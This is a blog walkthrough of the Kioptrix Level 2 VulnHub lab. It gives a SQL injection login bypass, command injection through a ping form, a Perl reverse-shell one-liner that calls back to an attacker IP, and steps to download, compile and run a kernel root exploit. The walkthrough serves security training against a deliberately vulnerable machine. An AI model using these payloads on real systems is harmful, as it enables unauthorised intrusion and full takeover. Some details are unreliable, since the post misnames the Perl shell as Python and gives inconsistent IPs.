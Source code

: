 ```yaml
---
layout: post
title: Kioptrix Level 2 (VulnHub) - Complete Walkthrough and Guide
subtitle: Here is a complete walkthrough and tutorial on how to beat Kioptrix Level 2 (Kioptrix - Level 1.1) of VulnHub to acquire root access.
comments: false
categories:
- WalkThroughs 
tags:
- vulnhub
---
```


Here is a complete walkthrough and tutorial on how to hack and penetrate Kioptrix Level 2 (Kioptrix: Level 1.1) of VulnHub.

![kioptrix_level_2](https://i.imgur.com/hInZ9y4.jpg){: .mx-auto.d-block :}

**Kioptrix Level 2 Description:**

Kioptrix Level 2 (or Kioptrix: Level 1.1) is a part of the Kioptrix vulnerable machine series. The objective is to acquire root access using techniques in vulnerability assessment and exploitation.

**Author:** Kioptrix

**Download:** [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)
### Kioptrix Level 2 Walkthrough
Kioptrix Level 2 was found by conducting an Nmap ping sweep and using the arp command.

~~~
nmap -sP 192.168.202.1-254

arp -a
~~~

![kioptrix_level_2_screenshot1](https://i.imgur.com/PrztbN3.jpg){: .mx-auto.d-block :}

Doing a quick Nmap scan, it was found that Kioptrix Level 2 port 80 was open - so it was accessed using a web browser.

~~~
nmap -n 192.168.202.129
~~~

![kioptrix_level_2_screenshot2](https://i.imgur.com/4azvB0Q.jpg){: .mx-auto.d-block :}

Browsing to **http:// 192.168.202.129** showed that Kioptrix Level 2 was hosting a **Remote System Administration Login** website with a username and password form.

~~~
http://192.168.216.129
~~~

![kioptrix_level_2_screenshot3](https://i.imgur.com/YMZBaTE.jpg){: .mx-auto.d-block :}

The **Remote System Administration Login** webpage was been tested for SQL injection attacks and it was found out that using **1' or '1' = '1** as the username and password will let you bypass the login credentials and access the **Basic Administrative Web Console** which lets you ping a machine on the network.

![kioptrix_level_2_screenshot4](https://i.imgur.com/MVacV2g.jpg){: .mx-auto.d-block :}

The ping form was then tested for SQL injection vulnerabilities which found that a simple **semi-colon (;)** will allow the attacker to inject commands.

A Netcat listener was opened which waits for incoming connections while a reverse shell Python command was then used on the Ping form to obtain a low privilege shell.

~~~
nc -nlvp 443

Command used on the Ping form:

;perl -e 'use Socket;$i="192.168.202.128";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
~~~

![kioptrix_level_2_screenshot5](https://i.imgur.com/AG2hU6c.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot6](https://i.imgur.com/Ak1jktk.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot7](https://i.imgur.com/YFyDnFU.jpg){: .mx-auto.d-block :}

The low privilege shell was used to enumerate Kioptrix Level 2 which found that it is vulnerable to **[2.4/2.6 sock_sendpage() local root](https://www.exploit-db.com/exploits/9545/)** exploit which can be found on Exploit Database.

The exploit was then downloaded on Kioptrix Level 2 and was executed which resulted on gaining a root shell.

~~~
wget https://www.exploit-db.com/download/9545 -O /tmp/linux-sendpage.c --no-check-certificate

gcc -Wall -o linux-sendpage linux-sendpage.c

chmod 777 linux-sendpage

./linux-sendpage
~~~

![kioptrix_level_2_screenshot8](https://i.imgur.com/RTfAaR1.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot9](https://i.imgur.com/08YnJRJ.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot10](https://i.imgur.com/VRMiKSl.jpg){: .mx-auto.d-block :}

Kioptrix Level 2 has been successfully hacked and exploited!

